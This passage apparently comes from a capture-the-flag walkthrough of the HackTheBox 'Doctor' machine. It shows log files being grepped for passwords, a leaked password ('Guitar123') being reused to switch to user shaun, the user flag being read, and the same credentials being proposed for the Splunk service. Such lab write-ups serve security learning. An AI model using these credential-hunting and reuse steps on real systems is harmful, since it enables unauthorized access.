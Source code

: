   <img src="/assets/img/Posts/Doctor/adm-group.png" class="center">

```shell
web@doctor:/var/log$ find . -type f  -exec strings {} \; |grep -i password 2>/dev/null
<SNIP>
Feb  4 01:11:03 doctor kernel: [    5.921194] systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.               
strings: ./vmware-network.1.log: Permission denied                                                                                     
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"          
strings: ./vmware-network.5.log: Permission denied                                                                                     
strings: ./vmware-network.6.log: Permission denied                                                                                     
<SNIP>
```
We found a password "Guitar123" let's use this password for the user shaun.

```shell
web@doctor:/var/log$ su shaun
Password: 
shaun@doctor:/var/log$ id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
shaun@doctor:/var/log$ 
shaun@doctor:/var/log$ cd /home/shaun
shaun@doctor:~$ ls
user.txt
shaun@doctor:~$ cat user.txt
63918588bf664df1ff018a0dd5d9d436
shaun@doctor:~$ 
```
## Privilege Escalation

Not able to find any privilege escalation vectors, we can try logging in the splunk web app on port 8089 with the credentials
shaun:Guitar123
